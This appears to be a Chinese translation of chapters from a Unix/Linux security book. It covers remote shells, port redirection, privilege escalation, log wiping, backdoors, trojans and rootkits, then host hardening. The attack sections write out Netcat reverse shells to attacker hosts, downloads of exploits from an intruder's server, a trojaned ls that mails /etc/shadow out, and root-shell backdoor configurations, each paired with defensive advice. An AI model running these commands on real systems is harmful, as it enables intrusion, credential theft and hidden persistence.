
1. **上传 Netcat**
   Netcat 可用于通过网络发送远程 shell。首先，你必须将 Netcat 放置在存在漏洞的主机上。这可以通过在受害者主机上执行以下 tftp 命令来完成：

   ```
   tftp -i attacker's_ip_address nc
   ```

   当然，为了使上述上传成功，攻击者必须运行一个可访问的 TFTP 服务器，并且在该服务器的 TFTP 主目录（通常是 /tftpboot）中放置 Netcat 二进制文件。

   除了 TFTP，还可以在受害者机器上执行 `wget` 工具，以从攻击者的 Web 服务器上获取 Netcat 二进制文件：

   ```
   wget http://attacker's_ip_address/nc
   ```

   或者，攻击者可以使用 FTP 命令行客户端将 Netcat 二进制文件上传到受害者主机：

   ```
   ftp -n ftpscript
   ```

   其中 `ftpscript` 是一个包含以下内容的文本文件：

   ```
   open attacker's_ftp_server_ip_address
   user user_on_attacker's_ftp_server user_password
   bin
   get nc
   bye
   ```

   可以通过在存在漏洞的主机上运行以下 `echo` 命令来创建此 `ftpscript`：

   ```
   echo open attacker's_ftp_server_ip_address > ftpscript;
   echo user user_on_attacker's_ftp_server user_password >> ftpscript;
   echo bin >> ftpscript;
   echo get nc >> ftpscript;
   echo bye >> ftpscript
   ```

2. **使用 Netcat**
   一旦 Netcat 被放置在受害者机器上，就可以用它来监听任意端口，并在连接时提供 shell：

   ```
   ./nc -e /bin/sh -l -p 9999
   ```

   现在，攻击者只需连接到受害者的 9999 端口即可接收命令 shell：

   ```
   nc victim's_ip_address 9999
   ```

   还可以指示 Netcat 连接到入侵者的端口，以提供命令 shell。首先，攻击者必须在某个端口上监听：

   ```
   nc -v -n -l -p 9999
   ```

   现在，必须在受害者主机上执行以下操作：

   ```
   . / nc -e /bin/sh attacker's_ipaddress 9999
   ```

   Netcat 默认不启用 `-e` 选项，该选项用于在建立连接后执行程序。如果你想让 Netcat 支持 `-e` 标志，必须使用 `-DGAMPERING_SECURITY_HOLE` 标志编译 Netcat。请记住，在将 Netcat 二进制文件上传到受害者主机之前执行此操作。

### 使用 xterm 获取远程 Shell

如果受害者主机安装了 `xterm` 等 X 终端客户端软件，攻击者可以执行该程序以接收远程 shell：

```
xterm -display attacker's_ip_address:0.0 &
```

此命令将使 `xterm` 的一个实例在受害者主机上执行，并显示在攻击者的 X 服务器上。当然，攻击者必须首先运行以下命令，以允许 `xterm` 显示在他或她的 X 服务器上：

```
xhost +victim's_ip_address
```

### 防止攻击者获取远程 Shell

以下是一些你可以采取的步骤，以增加入侵者获取远程 shell 的难度：

- 配置防火墙以阻止所有未使用的端口。此外，收紧防火墙规则以限制出站连接。例如，仅用作 Web 服务器的主机必须不允许在任何端口上发起出站连接。
- 从生产主机中卸载 telnet、ftp、wget 和 ftp 等客户端软件。
- 从生产主机中卸载 X 程序和库。

## 端口重定向

端口重定向技术可用于绕过薄弱的防火墙规则，以连接到在防火墙过滤的端口上运行的服务。为了便于进行端口重定向，我们将使用 Zebedee，这是一个可用的命令行工具，位于 [http://www.winton.org.uk/zebedee/](http://www.winton.org.uk/zebedee/)。假设 Zebedee 在受害者机器上可用。如果不可用，请使用前面“上传 Netcat”部分描述的方法将 Zebedee 二进制文件上传到受害者主机。

### 本地端口重定向

假设入侵者需要连接到已被攻陷主机上的 MySQL 服务器。如果在被攻陷主机上或之前存在防火墙，且仅允许端口 80 的入站连接，入侵者可以在受害者机器上执行以下命令：

```
[victim_host]$ zebedee -T 80 -s 127.0.0.1:3306
```

接下来，入侵者可以在他或她的机器上执行以下命令：

```
[intruder's_host]$ zebedee -T 80 victim's_ip_address:3306:127.0.0.1:3306
```

这将导致入侵者主机上的 Zebedee 进程连接到受害者主机上监听 80 端口的 Zebedee 进程。现在，入侵者可以连接到他或她主机的 3306 端口（127.0.0.1），以便通过 Zebedee 隧道连接到受害者主机的 3306 端口。

> 入侵者可以在受害者主机上运行 `ifconfig` 和 `route -n` 命令，以识别可能允许连接到内部网络的额外网络卡。在上述 Zebedee 命令中，攻击者可以指定内部机器的 IP 地址，而不是 127.0.0.1。这将导致监听受害者主机 80 端口的 Zebedee 将流量重定向到指定的内部主机和端口。

### 远程端口重定向

考虑这种情况：受害者主机上或之前的防火墙不允许任何入站连接，且仅允许端口 80 的出站连接。

我们可以使用 Zebedee 执行远程端口转发，这将导致运行在入侵者主机上的 Zebedee 进程等待来自受害者主机上客户端 Zebedee 进程的连接。


首先，入侵者必须在其主机上运行以下命令：

```bash
[intruder's_host]$ zebedee -l 3306:*:3306 -T 80
```

现在，入侵者必须在受害主机上运行以下命令：

```bash
[victim_host]$ zebedee -T 80 -c intruder's_ip_address -s 127.0.0.1
```

该命令将导致受害主机上的 Zebedee 服务器进程向入侵者主机上监听 80 端口的 Zebedee 客户端进程发起出站连接。当入侵者连接其机器（127.0.0.1）的 3306 端口时，他将通过 Zebedee 隧道反过来连接到受害者机器的 3306 端口。

> 入侵者可能在受害主机上运行 `ifconfig` 和 `route -n` 命令，以识别允许连接到内部网络的其他网络适配器。入侵者可能使用前一条命令中除 127.0.0.1 以外的内部 IP 地址，对受害者内部网络中主机上监听的端口执行远程端口转发。

## 加固防火墙规则

尽可能收紧您的防火墙规则。务必限制出站连接。例如，仅用作 Web 服务器的主机不允许在任何端口上发起出站连接。

## 破解 /etc/shadow

大多数 Unix 和 Linux 发行版默认使用影子密码，其中加密的密码哈希值存储在 /etc/shadow 文件中。此文件仅根用户可读取。假设入侵者已获取主机的 root 权限，他或她可以使用密码破解工具来破解密码哈希值。

### 使用 John 破解 /etc/shadow

可以使用 John the Ripper 来破解 /etc/passwd：

```bash
[bash]#  john /etc/shadow
Loaded 2 passwords (FreeBSD MD5 [32/32])
tricer4ckkingme             (root)
johnnypwd                   (john)
```

John the Ripper 可在 [http://www.openwall.com/john/](http://www.openwall.com/john/) 获取。

### 使用强密码

请采取以下步骤来加强密码策略并确保使用强密码：

- 强制用户使用强密码。诸如在 http://www.utexas.edu/cc/unix/software/npasswd/ 可用的 `npasswd` 以及在 http://www.openwall.com/passwdqc/ 可用的 `pam_passwdqc` 等工具有助于执行强密码策略。
- 强化允许的密码有效期限和长度。根据您的发行版，编辑 `/etc/default/passwd` 或 `/etc/login.defs` 来实现此目的。
- 考虑使用动态密码方案，如 S/KEY 和 SecurID。

### 总结

本章重点介绍了入侵者用于远程攻陷易受攻击主机的技术。讨论了诸如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对错误配置的利用、缓冲区溢出以及其他软件漏洞等策略。一旦入侵者获得了对易受攻击主机的远程访问权限，他或她将试图使用以下章节中描述的方法来维持访问权限并提升权限。

# 第 5 章

# 权限提升

# 本章内容：

- 利用本地信任
- 组成员身份和不正确的文件权限
- PATH 中的 “.”
- 软件漏洞
- 总结

许多漏洞允许入侵者获得对远程主机的非特权访问权限。在获得普通用户权限后，入侵者的下一个逻辑步骤是获取 root（超级用户）访问权限。除了外部入侵者之外，恶意的本地用户也可能试图利用本地漏洞来获得超级用户权限。

将权限提升到超级用户的行为通常被称为权限提升。本章描述了一个具有普通用户权限的人试图获得超级用户权限的方法。

# 利用本地信任

在大多数情况下，防火墙被配置为限制来自外部主机和网络的访问。回环接口（127.0.0.1）上的流量通常不受限制。事实上，过滤回环接口上的流量可能会导致许多应用程序崩溃。本地用户可以利用这一条件为其自身带来优势，并尝试扫描、枚举和利用那些无法远程访问的服务。因此，一旦攻击者获得了主机的本地用户访问权限，他或她可能会尝试本书前面章节中描述的所有黑客技术以提升权限。

# 组成员身份和不正确的文件权限

不正确的文件权限可能允许恶意用户读取或写入他们没有权限访问的文件。以下部分描述了恶意用户如何利用不正确的文件权限来提升其权限。

## 查找组拥有的文件

假设入侵者已获得本地账户 “joe” 的访问权限。他或她可以通过发出 `id` 命令来查看 “joe” 所属的所有组：

```bash
(bash)$ id
uid=500(joe) gid=500(joe) groups=500(joe),501(proj1)
```

在注意到 "joe" 属于 "proj" 组后，入侵者可以发出以下命令，这将列出由 "proj" 组拥有的所有文件：

```bash
[bash]$ find / -group proj -print 2> /dev/null
/var/proj1/main.c
/var/proj1/main.o
/var/proj1/README
/var/proj1/passw.txt
/var/log/proj1
```

现在，入侵者确切地知道了 "proj" 的哪些文件 "joe" 可以访问。其中一个文件 passw.txt 可能显得很有趣：

```bash
[bash]$ more /var/proj1/passw.txt
```

注意，此程序使用系统密码 “r00t3rp455w” 对 MySQL 数据库进行身份验证。

管理员通常会重用密码。如果受害主机的 root 密码与前文中提到的 MySQL 密码相同，那么入侵者可以通过发出 `su` 命令来获得 root 权限：

```bash
[bash]$ su -
Password: r00t3rp455w
[bash]# id
uid=0(root) gid=0(root) groups=0(root), 1(bin), 2(daemon), 3(sys), 4(adm), 6(disk), 10(wheel)
```

## 查找所有用户可读和可写的文件

除了搜索组可读文件外，还可以搜索用户可能可以访问的全体用户可读文件。例如，以下是如何搜索 /etc 目录中所有存在的全体用户可读文件：

```bash
[bash]$ find /etc -type f -perm -4 -print 2> /dev/null
```

/etc 中的许多文件不应该是全体用户可读的。例如，/etc/shadow 文件包含用户的加密密码。任何能够访问此文件的人都可能使用诸如 John the Ripper 等工具暴力破解用户密码。

入侵者可以通过发出以下命令来尝试搜索全体用户可写文件：

```bash
[bash]$ find / -type f -perm -2 -print 2> /dev/null
/usr/sbin/in.telnetd
```

在此示例中，入侵者的 *"joe"* 账户对 in.telnetd 具有写权限。受害主机上的 inetd 或 xinetd 服务每次有传入的 telnet 连接到达主机时，都会调用 in.telnetd 文件。入侵者可以编辑 in.telnetd 文件，并在其中放置以下内容：

```bash
#!/bin/bash
xterm -display intruder_s_ip_address:0.0 &
```

现在，入侵者可以在其主机上执行以下命令：

```bash
xhost +victim_s_ip_address
```

这授予受害机器在其 X 服务器上显示 X 程序的权限。现在入侵者只需要 telnet 到受害主机，这将使 inetd 或 xinetd 以 root 权限调用 /usr/sbin/in.telnetd，从而向入侵者呈现来自受害主机的 root xterm！


### 确保适当的权限

定期审计文件，以确保适当的文件权限。

## PATH 中的 “.”

当用户执行命令时，命令 shell 会在 PATH 环境变量中包含的目录列表中搜索命令的位置：

```bash
[bash]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/home/joe/bin:/bin
```

假设 root 用户的当前目录（*"."*）在他的 PATH 中：

```text
…:/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/bin:/bin
```

现在，每当 root 用户执行诸如 `ls` 等命令时，shell 首先在当前目录中查找 *"."*，然后按 PATH 变量中列出的顺序搜索其他目录。


### 利用 PATH 中的 *"."* 植入木马

能够访问本地账户（如 *"joe"*）的恶意用户或入侵者可以创建一个名为 *"ls"* 的文件，并将其放置在受害用户的家目录（*/home/joe*）中，内容如下：


# 不要在 PATH 中包含 “.”

切勿在您的 PATH 中包含当前目录（“.”）。

#### 软件漏洞

Setuid 程序以文件所有者的权限执行。因此，无论谁执行 root 拥有的 setuid 文件，它们始终以 root 身份运行。由于 setuid 程序往往导致权限提升，攻击者通常会集中关注这些程序中的漏洞。

使用以下命令查找 setuid 程序：

```
find / -perm -4000 -type f -print 2> /dev/null
```

安装在主机上的软件中的漏洞可能允许恶意用户获取权限。以下是本地用户可能试图利用的不同类型软件漏洞的示例。

### 内核缺陷

操作系统内核中的漏洞也容易受到本地用户的利用。例如，Linux 的 “ptrace” 漏洞利用了 2.2 和 2.4 内核中的竞态条件缺陷。

### Ptrace 漏洞利用

为了利用 ptrace 漏洞，入侵者只需在受害机器上获取并运行该漏洞利用程序：

```
[bash]$ wget http://intruder's_web_server/ptrace.c
--:17:03:52--  http://intruder's_web_server/ptrace.c
==> 'ptrace.c'
Resolving intruder's_web_server... done.
Connecting to intruder's_web_server[10.0.0.1]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]

[ <=>] | 2,046 | 275.07K/s

17:03:52 (275.07 KB/s) - 'ptrace.c' saved [2046]
[bash]$ gcc -o ptrace ptrace.c
[bash]$ ./ptrace
[+] Attached to 11862
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4000ed4d
[+] Now wait for suid shell...
sh-2.05a# id
uid=0(root) gid=0(root) groups=0(root), 1(bin), 2(daemon), 3(sys), 4(adm), 6(disk), 10(wheel)
```

请参阅 http://securityfocus.com/bid/3447 以获取更多信息。

### 更新或修补内核

通常，内核开发人员会迅速发布针对内核漏洞的补丁。务必在恶意用户利用这些漏洞之前立即安装此类补丁。

### 本地缓冲区溢出

有关缓冲区溢出攻击的介绍，请参阅第 4 章。本地应用程序和服务也容易受到缓冲区溢出攻击。例如，“HP-UX IPCS 核心文件缓冲区溢出漏洞” 是由于对核心文件名的边界检查不当造成的。易受此漏洞影响的 `ipcs` 程序可被本地用户利用以获取受害主机上的 root 权限。有关此漏洞的更多详情，请访问 http://securityfocus.com/bid/7216。

> 请勿忽视为本地应用程序和服务安装最新补丁。
> 更多信息请参阅第 9 章。

### 输入验证不当

对接受输入参数的程序进行输入验证非常重要。Setuid 程序以 root 用户的权限执行，因此轻微的输入验证缺陷可能允许本地用户以超级用户权限执行命令。

作为一个例子，考虑 `runltt` 工具，它因输入验证条件不当而被发现易受权限提升影响。详情请参阅 http://securityfocus.com/bid/6077。

### 符号链接

符号链接是一种包含指向其他文件路径名的特殊文件。当程序试图访问一个作为符号链接的文件时，内核会透明地将进程重定向到符号链接所指向的文件名。

尽管符号链接是一个有用的功能，但它可以被用于利用那些未检查以确保正在访问的文件不是符号链接的易受攻击的程序。例如，考虑 CDE 工具包（CDE Toolkit）的符号链接漏洞，它未能检查正在写入的日志文件是否为符号链接文件。攻击者可以创建一个指向 /etc/shadow 的符号链接文件，其名称和路径与工具包创建的日志文件的名称和路径相同。这将导致工具包将其日志写入 /etc/shadow，从而导致其内容损坏。如果攻击者成功迫使将特定内容写入敏感文件，他们可以利用此类漏洞获取提升的权限。有关 CDE 工具包漏洞的更多详情，请参阅 http://securityfocus.com/bid/5083。

### 核心转储

当 Unix 或 Linux 进程崩溃时，操作系统会创建一个 “core” 文件。该文件包含有关崩溃进程的信息。核心文件被开发人员用于调试软件。由于核心文件包含有关崩溃过程的详细信息，入侵者可能会故意利用已知漏洞以使正在运行的进程崩溃，从而获取可能放置在核心文件中的敏感信息。

### Solaris FTP 核心转储影子文件恢复漏洞

旧版本 Solaris 中分发的 FTP 服务器已知在强制崩溃时会将其核心文件中的 /etc/shadow 部分放入，崩溃使用的命令如下：

```
CWD ~
```

在使用此命令使 FTP 服务器进程崩溃后，入侵者可以获取转储的核心文件以获取 /etc/shadow 文件的部分内容。下面是一个尝试执行此操作的会话示例：

```
[bash]$ telnet 127.0.0.1 21
Trying 127.0.0.1 ...
Connected to 127.0.0.1.
Escape character is '^]'.
220 127.0.0.1 FTP server (SunOS 5.6) ready
user joe
331 Password required for joe.
pass wrongpassword
530 Login incorrect.
cwd -
530 Please login with USER and PASS.
Connection closed by foreign host.

[bash]$ strings /core | grep root
root:$1$PycWBlRj8bSbCKLz7/CBPbePhXUcHLn0gI:12141:0:99999::7:::
```

一旦入侵者获得了 root 用户的密码哈希值，他或她可以使用诸如 John the Ripper 等工具暴力破解密码。有关此 Solaris FTP 服务器漏洞的更多信息，请参阅 http://securityfocus.com/bid/2601。有关如何使用 John the Ripper 执行密码破解的更多细节，请参阅第 4 章。

## 及时安装软件补丁

软件供应商通常会针对已公布的漏洞发布补丁。务必在恶意用户利用这些漏洞之前安装此类补丁。

## 配置错误

管理员经常将全部注意力集中在加固远程服务上。对本地服务和应用程序的疏忽可能导致各种配置错误，使本地用户能够获取更高的权限。例如，管理员可能会故意配置主机上运行的数据库服务器，允许任何用户无需密码即可连接。虽然防火墙可能会阻止远程用户登录到数据库服务器，但此类配置可能很容易允许本地用户提升权限。因此，强烈建议定期对本地服务和应用程序的配置进行加固和审计。

## 摘要

本章重点介绍了入侵者用于将其权限提升至 root 用户权限的技术。您了解了信任本地用户的危险、不当的文件权限、配置错误和软件漏洞。入侵者获取 root 权限后，将完全控制受害主机。接下来，入侵者必须隐藏其踪迹，并植入特洛伊木马和后门以确保持续访问。这些主题将在下一章中讨论。

请记住查阅本书的第二部分，其中介绍了如何执行主机加固，这将有助于防止本章中提到的许多权限提升攻击。


## 第 6 章

### 隐匿

**本章内容：**

- 清理日志
- 后门
- 木马
- 根目录驻留程序（Rootkits）
- 总结

在获取主机 root 权限后，入侵者很可能希望维持持续访问。此外，入侵者可能希望清除其踪迹，以便系统管理员不会察觉其存在。本章描述了入侵者通常用于隐藏其存在并确保对受害主机持续访问的各种技术和工具。

### 清理日志

以下是入侵者用于禁用和清理日志机制及文件的一些技术。

#### 命令历史（Shell History）

命令行 shell 通常会创建包含最近执行命令的日志文件。例如，bash shell 会在用户目录中创建一个 `.bash_history` 文件。可以使用 `tail` 命令检查用户最近执行的 20 条命令：

```bash
[bash]# tail -20 /root/.bash_history
cat /etc/shadow
rm -rf /var/log/*
ifconfig -a
netstat -nap
wget http://hacker's_ip/trojans.tgz
mkdir ...
mv trojans.tgz ...
cd ...
tar zxvf trojans.tgz
../configure
make install
ifconfig -a
ps U root
lastlog
ls -aR ~ | more
clear
route -n
cat /etc/shadow | mail hacker@hacker's_ip
rm -rf /var/log/maillog
```

`/root/.bash_history` 的这个片段很好地展示了主机被入侵后经常发生的典型黑客活动。


#### 禁用命令历史（Shell History）

为了禁用命令历史日志记录，入侵者可以将 shell 的历史文件设置为指向 /dev/null 的符号链接：

```bash
[bash]#  rm -rf /.bash_history
[bash]#  ln -s /dev/null /root/.bash_history
```

现在，任何尝试写入 /root/.bash_history 的进程实际上都是写入 /dev/null，这是一个包含空内容（null）的特殊文件。这将导致 bash shell 写入的所有历史数据被丢弃。


#### 启用系统审计和日志记录

shell 历史文件的目的是帮助用户回忆最近执行的命令。从系统安全角度来看，它从未被设计为提供某种日志记录机制。用户 shell 历史文件中包含的信息不应被信任，因为用户可能会删除或编辑该文件以包含他们想要的任何信息。相反，管理员应集中精力启用并强化系统审计和日志策略，如本书第二部分所述。

#### 清理 /var

/var 目录通常包含以下日志文件：

- **utmp** 和 **wtmp**：包含已登录到系统的用户信息
- **messages** 和 **secure**：由 syslog 守护进程使用，记录由各种应用程序和守护进程提交的日志信息
- **xferlog**：由 FTP 守护进程使用，记录数据传输请求
- **maillog**：由 SMTP 服务器使用，记录邮件传输
- **lastlog**：包含最近登录用户的 信息

入侵者可能手动编辑上述列出的文件以隐藏其存在。大多数情况下，入侵者使用诸如 zap3 等自动化工具来完成此任务。zap3 工具可以清理 utmp, wtmp, messages, secure 和 lastlog。它可从 **http://www.packetstormsecurity.org/** 获取。

此外，入侵者可能禁用 syslogd 等日志服务并修改其配置文件（syslog.conf）以记录到 /dev/null 等文件。

### 后门

一旦入侵者获得了系统访问权限，他或她很可能希望维持其特权状态。本节介绍了一些熟练黑客可能用于确保对受损主机持续访问的不同方法。

#### 安装远程 shell 服务

入侵者可能在 inetd.conf 文件或 xinetd.d 目录中添加条目，以使 inetd 或 xinetd 在特定端口上提供远程 shell。这可以通过配置 inetd 或 xinetd 来执行 /bin/bash 或任何其他命令 shell 来实现。一旦完成此操作，攻击者可以 telnet 到远程端口以获得远程 shell。

例如，攻击者可能将以下内容放入文件 /etc/xinetd.d/domain 中：

```text
service domain
{
    socket_type   = stream
    wait          = no
    user          = root
    server        = /bin/bash
    server_args   = -i
}
```

为了使此代码生效，必须重新启动 xinetd。现在，当攻击者 telnet 到受害主机的 53 端口（domain）时，他将看到一个 root shell：

```text
[bash]$ telnet victim's_ip_address 53
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]' .
stty: standard input: Invalid argument
readline: warning: rl_prep_terminal: cannot get terminal settings
[root@eminem /]# id
uid=0(root) gid=0(root)
```

或者，入侵者可能在 root 的 crontab 文件中添加条目，并使用 Netcat (nc) 定期发起对外部主机的出站连接以提供 shell。当然，主机必须配置为使用 Netcat 的 -l 选项监听入站连接。

#### 防止远程 shell 服务安装

以下操作有助于防止和检测远程 shell 服务安装：

- 尽可能收紧防火墙规则。也要确保限制出站连接。例如，唯一目的是充当 web 服务器的主机不允许在任何端口上发起出站连接。
- 如果没有使用相关服务，请禁用并卸载 xinetd 或 inetd。
- 使用 netstat 检查主机正在监听哪些端口及其关联进程：

```bash
netstat -nap
```

#### 根属主的 Setuid 和 Setgid shell

Setuid 和 setgid 程序以文件所有者或组的权限运行。获得 root 权限的入侵者可能将 /bin/bash 的副本放在其他位置，并使用带有 +s 参数的 chmod 命令在其上设置 setuid 标志。完成此操作后，入侵者可以使用非 root 账户再次登录，并只需运行 setuid 的 bash 可执行文件即可获得 root shell。

> 定期审计文件系统中的 setuid 和 setgid 可执行文件是个好主意。要查找 setuid 文件，请运行：

```bash
find / -perm -4000 -type f -print 2>/dev/null
```

要查找 setgid 文件，请运行：

```bash
find / -perm -2000 -type f -print 2>/dev/null
```

#### 将本地账户的 uid 更改为 0

root 账户的 uid（用户 ID）等于 0。如果另一个账户的 uid 设置为 0，该账户将获得 root 权限。

##### 为本地用户分配 0 的 uid

考虑 /etc/passwd 中用户 joe 的以下条目：

```text
joe:x:500:500::/home/joe:/bin/bash
```



获得 root 权限的攻击者可能将 /etc/passwd 中的上述条目更改为：

```text
joe::x:0:0::/home/joe:/bin/bash
```

这将为用户“joe”提供超级用户权限。现在入侵者只需确保对“joe”账户的持续访问即可。

#### 审计 /etc/passwd

定期审计 /etc/passwd，以确保只有 root 的 uid 和 gid 设置为 0。

#### .rhosts

用户通常将 .rhosts 文件放在其主目录中，以便促进从远程主机的无密码登录。此机制可被入侵者滥用，以无需密码即可维持对受害主机的持续访问。

##### 滥用 .rhosts 以确保持续的 root 访问

入侵者可能在 / 或 /root 中放置以下 .rhosts 文件：

```text
intruder’s_ip_address +
```

这将允许入侵者从其主机以 root 身份 rlogin 而无需密码。

##### 审计 .rhosts 并考虑使用 SSH

如果你正在运行 r-services，强烈建议采取以下措施：

- 考虑使用 SSH 作为 rlogin 和其他 r-services 的替代方案。
- 如果必须保留 login 和其他 r-services 启用，请使用 find 命令对恶意 .rhosts 文件的存在进行定期审计：

```bash
find / -name .rhosts -print
```

> 攻击者也可能在 /etc/hosts.equiv 中添加条目，提供与 .rhosts 相同的功能。定期检查此文件是个好主意。如果未使用，请删除 /etc/hosts.equiv。


# SSH 的 authorized_keys

如果受害主机正在运行 SSH 服务器，攻击者可能通过将他们的公钥放入 root 用户的 .ssh 目录中来维持对该主机的访问权限。SSH 会信任此公钥，并允许攻击者登录，前提条件是攻击者拥有相应的私钥。

## 滥用 SSH 的 Authorized_Keys 机制以确保持续的 root 访问权限

攻击者可以使用其主机上的 ssh-keygen 程序创建所需的公钥和私钥密钥对：

```bash
[bash]$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/intruder/.ssh/id_rsa):
Created directory '/home/intruder/.ssh'.
Enter passphrase (empty for no passphrase): [enter]
Enter same passphrase again: [enter]
Your identification has been saved in /home/intruder/.ssh/id_rsa.
Your public key has been saved in /home/intruder/.ssh/id_rsa.pub.
The key fingerprint is:
38:3c:7b:db:05:00:10:62:25:57:5c:b8:85:05:9a:a9 intruder@intruderoshost
```

现在，攻击者必须将 .ssh/id_rsa.pub 的内容复制到受害主机上的 .ssh/authorized_keys 文件中。完成此操作后，攻击者即可无需密码通过 SSH 登录受害主机：

```bash
[bash]$ ssh root@victim's_ip_address
Last login: Sun Mar 30 02:23:48 2003 from intruder's_host
[bash]#
```

## 禁止 root 通过 SSH 登录

不要允许 root 通过 SSH 登录。为了执行此规则，请编辑 sshd_config 并确保存在以下行：

`PermitRootLogin no`

## Loki2

Loki2 是一个免费提供的工具，常被攻击者用于安装后门。它使用 ICMP_ECHO 和 ICMP_REPLY 数据包来隧道传输 shell 命令。这使得它极难被检测到，因为其数据包看起来像是由 ping 工具生成的 ICMP 流量。

有关 Loki2 的更多信息，请访问 http://www.phrack.com/show.php?p=51&a=6。

## 收紧防火墙规则

配置防火墙以丢弃传入的 ICMP echo 请求和传出的 ICMP echo 回复。此外，除非必要，否则阻止所有传入和传出的 UDP 流量。

# 木马

黑客经常在受害主机上放置各种修改后的二进制命令文件。这些修改后的二进制文件看起来运行正常，但它们会暗中代表攻击者执行恶意命令。

## 将常用命令木马化

攻击者可能会用以下脚本替换 /bin/ls 二进制文件：

```bash
#!/bin/bash
cat /etc/shadow | mail intruder@intruders_email
/bin/ls.old
```

此脚本将 /etc/shadow 文件通过电子邮件发送给攻击者。当然，只有当 root 用户执行该脚本时才会成功。注意，该脚本调用了原始的 ls 二进制文件（保存为 /bin/ls.old）。这使得受害用户很难检测到它。这种修改后的二进制文件被称为木马。

以下是攻击者最常木马化的二进制文件：

- arp, cat, chfn, chsh, crontab, du, iconfig, finger, find, killall, more, locate, login, ls, lsof, passwd, pidof, ps, route, netstat, tail, tcpd, tcpspam, top, w, who, syslogd。

有关这些命令的许多描述，请参阅本书参考中心的“常用命令”部分。

## 检测木马

请参阅“检测 Rootkits”。

# ROOTKITS

为了收集并安装木马和后门，攻击者无需费太大周折。他们只需在网上搜索 rootkits 即可。Rootkits 是由现成的木马组成的软件包，旨在方便黑客使用。它们还包含其他工具，使攻击者能够自动清理日志文件、安装后门，并部署网络嗅探器等工具。以下几种黑产技术描述了几个免费在线上可获取的流行 rootkits。

## Adore

Adore rootkit 是一组 Linux 内核模块，可让攻击者隐藏进程、文件和网络设备详情。它还包括一个 root shell 后门。Adore 可从 http://www.team-teso.net/releases.php 获取。

## Linux Rootkit (LRK)

最受欢迎的 Linux rootkit 是 LRK，它包含许多常用命令的木马化二进制文件，包括但不限于：chfn, chsh, crontab, du, find, ifconfig, inetd, killall, login, ls, netstat, passwd, pidof, ps, rshd, syslogd, tcpd, top, sshd, 和 su。它还包含一个嗅探器以及 root shell 后门。LRK 可从 http://www.packetstormsecurity.org/ 获取。

## Tornkit

Tornkit 由各种木马二进制文件、嗅探工具以及执行自动禁用 syslogd 和其他关键服务的工具组成。它可以从 http://www.packetstormsecurity.org/ 下载。

## Knark

Knark 是一个隐藏文件和进程的 rootkit，还具有重定向命令的能力。它包含一个用于远程执行命令的后门。Knark 可从 http://www.packetstormsecurity.org/ 获取。

## 检测 Rootkits

以下工具可用于检测 rootkits 和木马：

- Chkrootkit 可用于检查系统中的 rootkits。它可从 http://www.chkrootkit.org/ 获取。
- 使用 Tripwire 或 Samhain 检测修改过的二进制文件。有关 Tripwire 的更多详情，请访问 http://www.tripwire.com/。有关 Samhain 的信息，请访问 http://samhain.sourceforge.net/。

## 摘要

从清理日志文件到安装后门和 rootkits，本章描述的许多技术列出了攻击者用于隐藏其存在并确保对受害主机持续 root 访问权限的各种方法。正如讨论的主题所显示，检测高级黑客的存在往往非常困难。因此，尽管本章结束了黑客方法论部分，但强烈建议您考虑本书第二部分的建议，以加强您的主机策略和配置。

# 第二部分

# 主机加固

第 7 章 默认设置和服务

第 8 章 用户和文件系统权限

第 9 章 日志记录和补丁管理

# 第 7 章

# 默认设置和服务

本章内容：

- 设置密码策略
- 删除或禁用不必要的账户
- 从 PATH 变量中移除“：”
- 检查 /etc/hosts.equiv 的内容
- 查找 .rhosts 文件
- 禁用 Suid 执行
- 使用 TCP Wrappers
- 加固 inetd 和 xinetd 配置
- 加固远程服务
- 摘要

大多数 Unix 和 Linux 发行版的默认安装为各种策略、应用和服务的更好加固留下了空间。本章提供了关于如何加固主机及其常用服务的提示。

## 设置密码策略

攻击者经常利用薄弱的密码策略来获取用户账户的访问权限。以下是加强密码策略可以采取的一些步骤：

- 确保正在使用影子密码（shadowed passwords）。检查 /etc/passwd 文件中是否存在密码哈希值。密码哈希值应仅存在于 /etc/shadow 文件中，并且此文件必须只能由 root 读取。
- 编辑 passwd 配置文件 (/etc/default/passwd) 或使用 chage 实用程序更改密码过期长度。

## 删除或禁用不必要的账户

检查 /etc/passwd 以查看主机上启用的账户。许多服务会创建非特权账户用于执行期间，例如：ftp, lp, news, gopher, ntp。确保通过将它们的 shell 设置为 /bin/false 来禁用此类账户。如果这些账户对应的服务未在使用，请卸载它们并删除账户。

## 从 PATH 变量中移除“.”

当用户执行命令时，命令 shell 会在包含于 PATH 环境变量中的目录列表中搜索命令的位置。为了防止执行由恶意用户放置在文件系统上的木马，请确保 PATH 环境变量绝不仅包含当前目录（“.”）。

检查诸如 /etc/rc.local, /etc/profile, /etc/bashrc, /etc/csh.cshrc, ~/.bashrc, ~/.bash_profile, ~/.cshrc, 和 ~/.login 等文件，确保 PATH 变量不包含“.”。如果您使用的 shell 不是 bash，请检查相应的资源文件。

使用 echo 打印当前用户的 PATH 变量的值：

```bash
echo $PATH
```


## 检查 /etc/hosts.equiv 的内容

`/etc/hosts.equiv` 文件包含了一个被认为受信任的主机名和用户列表。rlogin、rsh、rcp 和 rcpmmd 等服务使用此文件来确定受信任的实体。请检查此文件，以确保其中仅包含受信任的主机名和用户。如果不打算信任任何远程主机或用户，请考虑删除此文件。

## 检查 .rhosts 文件

检查您的文件系统中是否存在 .rhosts 文件。此文件中包含的主机名和用户名允许通过 rlogin 等 r 服务登录，而无需指定密码。使用 find 命令检查 .rhosts 文件：

```
find / -name .rhosts -type f -print 2>/dev/null
```

## 禁用堆栈执行

禁用堆栈执行可以防止某些类型的缓冲区溢出状况。如果使用 Solaris，请编辑 `/etc/system` 并添加以下行：

```
set noexec_user_stack=1
set noexec_usr_stack_log=1
```

对于非 Solaris 发行版，可以使用以下产品：

- StackGuard: http://www.immunix.org/stackguard.html
- Libsafe: http://www.research.ayvalabs.com/project/libsafe/
- StackGhost: http://stackghost.cerias.purdue.edu/
- Openwall: http://www.openwall.com/linux

## 使用 TCP WRAPPERS

